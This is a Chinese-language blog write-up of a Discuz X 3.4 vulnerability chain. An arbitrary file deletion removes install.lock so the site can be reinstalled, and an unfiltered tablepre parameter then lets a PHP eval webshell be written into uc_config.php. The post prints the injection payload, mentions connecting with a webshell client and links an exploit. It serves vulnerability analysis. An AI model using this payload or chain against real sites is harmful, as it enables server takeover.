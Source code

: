 ```yaml
---
title: Discuz X 3.4 由任意文件删除到 Getshell
date: 2017-10-02 00:14:34
tags: Hack
---
```


2017年9月29日，Discuz! 修复了一个安全问题用于加强安全性，这个漏洞会导致前台用户可以导致任意删除文件漏洞。并且，配合其他漏洞可以实现 GetShell。<!--more-->

## 初步分析

先下载官方托管在码云上的 Discuz X 源码：

```sh
$ git clone https://gitee.com/ComsenzDiscuz/DiscuzX.git
```

查看其提交历史，发现有一个『优化 加强安全性』的 commit 比较可疑：
!["优化 加强安全性"]( 截图 2017-10-01 21时29分18秒.jpg)

查看其具体内容：
!["修复"]( 截图 2017-10-01 21时31分17秒.jpg)

它删除了5个 unlink 语句……

这种修复方式真是简单粗暴啊… 看来我们分析的入口就在这里了。

## 任意文件删除

这部分的分析请参考这里：https://paper.seebug.org/411/ 

(别吐槽——这篇文章分析得很好，省了我很多字 :haha:)

## 文件删除能做什么

通过上面那篇文章，想必大家都能复现文件删除的漏洞了。那么这个漏洞能做什么呢？难道只是单纯的破坏吗？

我们知道， Discuz X 这类 CMS 软件，都会一个 install 目录，用来处理用户初次安装时的配置和数据库初始化。在安装完成后，会在 data 目录下生成一个 install.lock 文件。如果尝试再次访问 /install 来安装，检测到存在 install.lock，于是提示错误：
![](截图 2017-10-01 22时03分20秒.jpg)

如果用户没有删除 install 目录，而且我们也可以利用文件删除漏洞的话，我们就可以删掉这个 instal.lock，然后重新安装 Discuz。而重装过程中一般都有写配置文件的步骤，可能会给我们写入一句话的机会。

## 分析重装过程

`install/index.php` 文件控制安装的过程，它的逻辑其实很简单。安装主要分为五个步骤：
![](截图 2017-10-01 22时10分36秒.jpg)

1. show_license 显示是否接受协议，同意后跳到 env_check
2. env_check 检查目录是否可写和 PHP的相关检测，然后跳到 app_reg
3. app_reg 提示是否安装 UCenter Server，POST 到  app_reg，如果 install_ucenter=yes，直接重定向至 db_init，否则显示配置 ucenter 的表单
4. db_init 要求填写数据库和网站信息，POST 到 db_init，这时会进行数据库连接和数据表的检查。所以填写的数据库地址等信息要求必须是目标站能够连接的真实的服务器。
5. ….

在 db_init 的处理逻辑里，我们看到了想要的：
![](截图 2017-10-01 22时59分56秒.jpg)

跟进 save_config_file 函数：
![](截图 2017-10-01 23时11分59秒.jpg)

继续跟进  getvars 函数：
![]( 截图 2017-10-01 23时14分11秒.jpg)

结果却让人失望，这里的 addcslashes 会转义我们的引号，导致一句话无法逃逸出引号，无法执行。

但是紧跟着的 install_uc_server 让我很开心：
![](截图 2017-10-01 23时05分25秒.jpg)

跟进 install_uc_server: 
![](截图 2017-10-01 23时19分06秒.jpg)

发现它没有对传入的参数做任何过滤，传入了 save_uc_config 中:
![](截图 2017-10-01 23时20分58秒.jpg)
同样 save_uc_config 也没有做任何处理，直接拼接到配置文件字符串中，然后写入了文件。

因为 dbhost, dbuser 等参数需要用来连接数据库，所以我们能利用的就只有 tablepre 了，也就是我们指定的数据库前缀。我们构造这样的 tablepre:

	x');@eval($_POST[pwd]);('

实验一下：

![]( 截图 2017-10-01 23时27分59秒.jpg)

然后查看 config/uc_config.php 文件，发现我们的一句话已经写入了：
![]( 截图 2017-10-01 23时38分00秒.jpg)

使用菜刀连接：
![]( 截图 2017-10-01 23时39分13秒.jpg) 

## EXP

最后，附上整个利用过程的 EXP：
https://gist.github.com/j178/67f4dbd8e87cd012a7caa8752ea06e7b

（**此漏洞危害巨大，请勿在网络上测试**）
